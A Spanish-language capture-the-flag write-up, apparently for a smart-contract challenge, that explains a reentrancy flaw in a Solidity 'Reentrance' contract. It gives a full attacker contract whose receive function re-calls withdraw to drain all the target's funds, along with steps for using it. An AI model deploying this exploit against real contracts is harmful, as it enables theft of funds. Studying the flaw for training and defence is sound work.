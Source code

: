 # 10-Re-entrancy

## Objetivo
El objetivo de este reto es robar todos los fondos del contrato

## Contrato
```Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```
## Análisis del contrato
* Importa las librerías de SafeMath de OpenZeppelin y las aplica en los uint256
* Posee el mapping balances que es público, y asocia un address a un uint
* La función donate(), es pública y acepta eth. Recibe como parámetro un address. Agrega el valor enviado en la transacción al mapping de balances correspondiente
al address enviado por parámetro.
* La función balanceOf(), es pública y view. Recibe por parámetro un address y retorna un entero. Devuelve el valor que tiene en el mapping de balances, el address
enviado por parámetro.
* La función withdraw(), es pública y recibe por parámetro un entero. Valida si el valor que se está enviando en la transacción es mayor o igual al valor que el sender
posee en el mapping de balances. Si esto sucede, realiza un **_call_** enviándole como valor, el parámetro recibido. Si se realizó correctamente resta el valor al balance
del mapping.
* Por último posee una función para recibir ether.

## Solución
Para resolver este caso, tenemos que realizar una llamada a la función withdraw antes de que se realice el ajuste de balances (aquí está el fallo).
Para esto, vamos a crear el siguiente contrato:
```Solidity
contract hackReentrancy{
    
    address public reAddress = ADDRESS DE TU CONTRATO REENTRANCE;
    
    Reentrance public reentrance;

    constructor() payable{
        reentrance = Reentrance(payable(reAddress));
    }
    
    function donate(address reciever) public payable{
        reentrance.donate{value:0.001 ether}(reciever);
    }

    function withdraw() public{
        reentrance.withdraw(0.001 ether);
    }

    receive () external payable{
        if(address(reentrance).balance >= 0.001 ether){
            reentrance.withdraw(0.001 ether);
        }
    }
}
```
* Posee la función donate() que llama a la función donate del contrato original.
* Posee la función withdraw() que llama a la función withdraw del contrato original.
* Posee una función para recibir ether. En esta función validamos, que el balance del contrato original sea mayor o igual a la cantidad que estamos retirando. 
Si es así, llamamos nuevamente a la función withdraw del contrato original.

Entonces, primero debemos realizar una donación al contrato original con el address de nuestro contrato malicioso para que se cargue en el mapping de balances.
Luego debemos llamar a la función withdraw de nuestro contrato. Cuando recibamos el eth, se volverá a llamar
a la función withdraw del contrato original y así sucesivamente hasta que se haya quedado sin fondos.

Una vez realizado esto, validamos que efectivamente se haya quedado sin fondos, eviamos la instancia y listo! Reto completado.
